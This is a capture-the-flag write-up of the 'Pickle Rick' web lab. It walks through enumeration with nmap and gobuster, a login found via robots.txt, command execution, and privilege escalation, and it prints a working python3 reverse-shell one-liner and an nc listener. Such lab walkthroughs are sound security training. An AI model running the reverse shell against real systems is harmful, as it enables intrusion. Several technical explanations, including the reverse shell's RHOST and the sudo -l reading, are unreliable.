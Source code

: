 # Pickle Rick CTF

------------------------------------------------------------
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: 10.10.212.184

My first step was to enter the url 10.10.212.184 into my web browser to check on any initial information because there was minimal context given in the prompt.

![pickle rick ctf homepage](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/5fc63bc0-8f3e-4e65-9299-136c1836c6dc)

Looking into the source of the landing page, we find a username.

![url inspect](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/3e8d26d7-ad9b-48d6-badf-f32ff3dbb930)

- Username:R1ckRul3s

After taking a look webpage, I decided to do a portscan using the nmap tool. Utilizing the -sV and -A flags, I was able to gain information about open ports, operating systems, versions, script scans, and tracerouting. 

![sudo nmap -sV -A](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/6f9ef322-61d3-40fc-9b14-8e75737882ae)

Finding that ssh is open is an indicator that we will likely be executing a reverse shell to connect through that open ssh port.

We now need a way to find any valid urls to gain more information about the size of our attack surface. Using the gobuster tool, we can try enough variations to have a good starting point. I decided to use the medium directory list included in Kali Linux and found 8 potential leads.

![gobuster force directory](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/2050371a-989e-4afc-ad9a-57c47041f866)

Exploring the listed links in the assets page:

![asset url](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/a6acefd2-e345-4ad5-b66f-d7d92739602b)

I suspected based on the amount of images and gifs that I would find stenography in these links, but unfortunately that effort came up short.

The login.php link guides us to a typical login page, and the robots.txt link led us to a strange string of text. 

![robotstxt](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/b3cf7742-caac-47cb-93fd-24757be073ef)

I decided to attempt using this string from robots.txt as a password and was successful.

From here we were given a command line labeled "command"

After exploring the files and directories a bit, I decided to run a grep -R . command where the . serves as a wildcard matching all characters. This command outputs each character available recursively. It isn't ideal in terms of organizing the data, but it's a great way to get an idea of the amount of information we are looking at. 

![grep -R   ](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/a9ef3466-460b-49d6-9019-8a2b596415f4)

Toward the bottom of the output, I saw this:

![mr  meeseek hair first clue](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/27425378-d616-4092-9e1f-b701093939de)

I inserted this into the first clue and we've successfully found our first potion ingredient!

At this point, I tested python3 "print('hello')" to see if we would be able to run python scripts through the command and we were able to print hello succesfully! 

I set up a nc listener on port 9001 in my terminal running:
nc -lvnp 9001 
using revshells.com I generated a python3 reverse shell:
export RHOST="10.10.212.184";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

Once I established a connection, I navigated the files until I checked the home directory. Here I found a directory named "Ricky". Inside that directory, I found a file named "second ingredients", so I knew that we had found our second flag. I read the file using cat *

![1 jerry tear second clue](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/89b2cdc4-b174-432f-9ead-4ad387ba6641)

I spent longer than I should continuing to investigate the machine from this point, and eventually it occurred to me that I hadn't done any privilege escalation up to this point. 

I ran the command sudo -l to get information about the elevated users on the machine and was surprised to see there was no password set for the root user on the machine.

![priv escalation sudo -l found no pw](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/4dbc1b4e-775c-4450-af64-e2d2ef303c33)

From here I entered cd /root and then ls to list files that may not have been visible to me before.  As you can see,  I found a file named 3rd.txt 

![third clue visible as root user](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/0320688d-ea05-4894-ae84-d7442f0e722e)

As you can see, I ran cat 3rd.txt and found our final ingredient which happened to fleeb juice of course!

This concluded the exercise and once we combine the ingredients and bring the potion to Rick, he will no longer be a pickle!

# Takeaways:

- **Initial Exploration:**
    
    - Inspect the web application's source code for clues.
    - Discover the username "R1ckRul3s" in the source.
- **Port Scanning:**
    
    - Use nmap for port scans to identify potential vulnerabilities.
    - Focus on open SSH ports for potential exploitation.
- **Directory Enumeration:**
    
    - Employ gobuster to find valid URLs.
    - Use robots.txt strings as potential passwords.
- **Command Line Exploration:**
    
    - Exploit login success to access a labeled command line.
    - Utilize commands like grep for recursive file searches.
- **Reverse Shell:**
    
    - Confirm the ability to run scripts through the command line.
    - Establish a reverse shell for remote access.
- **Privilege Escalation:**
    
    - Check for elevated users with `sudo -l`.
    - Discover no password requirement for root user.
- **Root Access:**
    
    - Navigate to root directories, find "3rd.txt" for the final ingredient.



